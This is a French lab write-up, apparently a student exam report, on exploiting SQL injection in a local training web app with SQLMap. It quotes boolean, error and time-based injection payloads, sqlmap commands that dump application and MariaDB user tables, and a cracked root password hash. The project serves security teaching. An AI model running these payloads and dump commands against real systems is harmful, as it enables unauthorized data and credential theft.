 
# Projet : Exploitation SQL Injection avec SQLMap

## Description

Ce projet explore l'exploitation de vulnérabilités SQL Injection sur une application web locale. L’outil **SQLMap** a permis d’identifier plusieurs types de failles SQL Injection et d’extraire des informations sensibles de la base de données, notamment les utilisateurs et les privilèges.

### Identification de la base de données et vulnérabilités SQL Injection

Lors des tests initiaux, l’insertion d’une apostrophe (`'`) dans le champ `uid` du formulaire `register.php` a produit une erreur SQL révélant l'utilisation de **MariaDB** comme système de gestion de base de données. En suivant cette indication, une commande SQLMap a été exécutée pour tester la présence de vulnérabilités. Cette commande a révélé plusieurs failles exploitables :

```bash
sqlmap -u "http://localhost:8888/register.php" --data="uid=test&password=test&name=test&descr=test" --level=2 --risk=3 --batch
```

Les vulnérabilités détectées sont les suivantes :

1. **Injection SQL de type boolean-based blind** :
   - **Description** : Cette technique permet de manipuler des requêtes SQL basées sur des conditions booléennes.
   - **Exemple de Payload** : `uid=test' RLIKE (SELECT (CASE WHEN (7373=7373) THEN 0x74657374 ELSE 0x28 END)) AND 'ZdRI'='ZdRI`

2. **Injection SQL de type error-based** :
   - **Description** : Cette technique repose sur les erreurs SQL renvoyées par le serveur pour obtenir des informations.
   - **Exemple de Payload** : `uid=test' AND EXTRACTVALUE(5067,CONCAT(0x5c,0x71716b7671,(SELECT (ELT(5067=5067,1))),0x716b6a6271)) AND 'tpCd'='tpCd`

3. **Injection SQL de type time-based blind** :
   - **Description** : Cette technique permet d’utiliser des délais de réponse pour vérifier la validité des requêtes.
   - **Exemple de Payload** : `uid=test' AND (SELECT 2799 FROM (SELECT(SLEEP(5)))gnXJ) AND 'XAFL'='XAFL`

Ces vulnérabilités ont confirmé la possibilité d'exploiter les injections SQL et d'extraire des données sans authentification.

---

## Objectifs de l'examen

1. Effectuer un dump du schéma de la base de données.
2. Récupérer la liste des utilisateurs de l'application.
3. Récupérer la liste des utilisateurs de MariaDB.
4. Obtenir et déchiffrer le mot de passe root de MariaDB via une attaque par force brute.
5. Extraire le mot de passe administrateur de l'application.

---

## Fichiers Exportés

Voici les fichiers générés au format `.csv` et `.txt` contenant les informations récupérées :

- **Schéma de la base de données :**
  - [Schéma de la base `sqlitraining`](output/sqlitraining-schema.csv)
  - [Tables dans `information_schema`](output/information_schema-tables.csv)
  - [Tables dans `sys`](output/sys-tables.csv)
  - [Tables dans `mysql`](output/mysql-tables.csv)

- **Utilisateurs de l'application :**
  - [Liste des utilisateurs de l'application](output/sqlitraining-users.csv)

- **Utilisateurs de MariaDB :**
  - [Liste des utilisateurs de MariaDB](output/mysql-users.csv)

- **Mot de passe root de MariaDB :**
  - [Mot de passe root de MariaDB (force brute)](output/root-password.txt)

- **Mot de passe administrateur de l'application :**
  - [Mot de passe administrateur de l'application](output/admin-password.txt)

---

## Commandes SQLMap Utilisées

Voici un aperçu des commandes SQLMap exécutées pour chaque objectif :

### 1. Détection de la vulnérabilité SQL Injection

**Commande utilisée :**
```bash
sqlmap -u "http://localhost:8888/register.php" --data="uid=test&password=test&name=test&descr=test" --level=2 --risk=3 --batch
```

### 2. Extraction des Bases de Données Disponibles

**Commande :**
```bash
sqlmap -u "http://localhost:8888/register.php" --data="uid=test&password=test&name=test&descr=test" --dbs --batch
```

### 3. Récupération du Schéma de la Base de Données `sqlitraining`

**Commande :**
```bash
sqlmap -u "http://localhost:8888/register.php" --data="uid=test&password=test&name=test&descr=test" -D sqlitraining --tables --batch
```

### 4. Récupération des Tables de `information_schema`

**Commande :**
```bash
sqlmap -u "http://localhost:8888/register.php" --data="uid=test&password=test&name=test&descr=test" -D information_schema --tables --batch
```

### 5. Extraction des Données de la Table `users` dans `sqlitraining`

**Commande :**
```bash
sqlmap -u "http://localhost:8888/register.php" --data="uid=test&password=test&name=test&descr=test" -D sqlitraining -T users --dump --dump-format=CSV --batch
```

### 6. Extraction des Données de la Table `products` dans `sqlitraining`

**Commande :**
```bash
sqlmap -u "http://localhost:8888/register.php" --data="uid=test&password=test&name=test&descr=test" -D sqlitraining -T products --dump --dump-format=CSV --batch
```

### 7. Récupération des Tables dans la Base `mysql`

**Commande :**
```bash
sqlmap -u "http://localhost:8888/register.php" --data="uid=test&password=test&name=test&descr=test" -D mysql --tables --batch
```

### 8. Extraction des Données de la Table `user` dans `mysql`

**Commande :**
```bash
sqlmap -u "http://localhost:8888/register.php" --data="uid=test&password=test&name=test&descr=test" -D mysql -T user --dump --batch --dump-format=CSV
```

### 9. Extraction des Données Précises (User, Host, authentication_string) dans la Table `user` pour l’utilisateur `root`

**Commande :**
```bash
sqlmap -u "http://localhost:8888/register.php" --data="uid=test&password=test&name=test&descr=test" -D mysql -T user -C User,Host,authentication_string --dump --where="User='root'" --batch
```

- **Détails** : Le mot de passe obtenu, `81F5E21E35407D884A6CD4A731AEBFB6AF209E1B`, correspond à **root** après décryptage sur **CrackStation**. Ce mot de passe était encodé en MySQL4.1+.

### 10. Extraction du Mot de Passe Administrateur de l'Application

**Commande :**
```bash
sqlmap -u "http://localhost:8888/register.php" --data="uid=test&password=test&name=test&descr=test" -D sqlitraining -T users --dump --batch
```

---

### Notes Légales

L'utilisation de **SQLMap** pour des attaques sans autorisation préalable est illégale. Ce projet est réalisé dans un cadre d'apprentissage sécurisé et contrôlé.

---
